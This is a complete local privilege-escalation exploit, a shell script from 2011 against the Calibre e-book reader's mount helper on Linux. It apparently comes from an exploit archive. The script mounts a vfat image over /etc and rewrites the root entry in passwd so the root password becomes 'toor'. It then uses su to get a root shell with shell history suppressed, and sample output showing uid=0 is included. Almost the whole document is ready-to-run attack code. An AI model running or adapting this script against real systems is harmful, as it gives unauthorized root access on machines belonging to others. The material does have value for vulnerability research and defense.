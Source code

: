 EXP
---

    # Exploit Title: .60-Calibrer Assault Mount: Another Calibre E-Book Reader Local Root
    # Date: Nov 2, 2011
    # Author: zx2c4
    # Software Link: http://calibre-ebook.com/
    # Tested on: Gentoo
    # Platform: Linux
    # Category: Local
    # CVE: pending
    #!/bin/sh

                      #######################################
                      #     .60-Calibrer Assault Mount      #
                      #              by zx2c4               #
                      #######################################

    ################################################################################
    # Yesterday we learned how Calibre's usage of execlp allowed us to override PATH
    # and get root, in my ".50-Calibrer Assault Mount" exploit. Today we exploit a
    # more fundumental issue with Calibre's mount helper -- namely, that it allows
    # us to mount a vfat filesystem anywhere we want. By mounting a file system
    # image over /etc, we are able to tinker /etc/passwd and make the root password
    # temporarily "toor".
    #
    # - zx2c4
    # 2011-11-2
    #
    # Usage:
    # $ ./60calibrerassaultmount.sh
    # [+] Making temporary directory: /tmp/tmp.OGgS0jaoD4
    # [+] Making overlay image:
    # 51200+0 records in
    # 51200+0 records out
    # 26214400 bytes (26 MB) copied, 0.100984 s, 260 MB/s
    # mkfs.vfat 3.0.11 (24 Dec 2010)
    # [+] Mounting overlay image using calibre-mount-helper.
    # [+] Copying /etc into overlay.
    # [+] Tampering with overlay's passwd.
    # [+] Unmounting overlay image using calibre-mount-helper.
    # [+] Mounting overlay to /etc using calibre-mount-helper.
    # [+] Asking for root. When prompted for a password, enter 'toor'.
    # Password: [typed in toor to the terminal]
    # [+] Unmounting /etc using root umount.
    # [+] Cleaning up: /tmp/tmp.OGgS0jaoD4
    # [+] Getting shell.
    # sh-4.2# id
    # uid=0(root) gid=0(root) groups=0(root)
    # sh-4.2# whoami
    # root
    # sh-4.2#
    ################################################################################


    echo "#######################################"
    echo "#     .60-Calibrer Assault Mount      #"
    echo "#              by zx2c4               #"
    echo "#######################################"
    echo
    echo -n "[+] Making temporary directory: "
    dir="$(mktemp -d)"
    echo "$dir"
    cd "$dir"
    echo "[+] Making overlay image:"
    dd if=/dev/zero of=overlay count=51200
    /usr/sbin/mkfs.vfat overlay
    echo "[+] Mounting overlay image using calibre-mount-helper."
    mkdir staging
    calibre-mount-helper mount overlay staging
    echo "[+] Copying /etc into overlay."
    cd staging/
    cp -a /etc/* . 2>/dev/null
    echo "[+] Tampering with overlay's passwd."
    cat passwd | tail -n +2 > tmp
    echo "root:$(echo -n 'toor' | openssl passwd -1 -stdin):0:0:root:/root:/bin/bash" >> tmp
    mv tmp passwd
    echo "[+] Unmounting overlay image using calibre-mount-helper."
    cd ..
    calibre-mount-helper eject overlay staging >/dev/null 2>&1
    echo "[+] Mounting overlay to /etc using calibre-mount-helper."
    calibre-mount-helper mount overlay /etc  >/dev/null 2>&1
    cd /
    echo "[+] Asking for root. When prompted for a password, enter 'toor'."
    su -c "echo \"[+] Unmounting /etc using root umount.\"; umount /etc; echo \"[+] Cleaning up: $dir\"; rm -rf \"$dir\"; echo \"[+] Getting shell.\"; HISTFILE=\"/dev/null\" exec /bin/sh"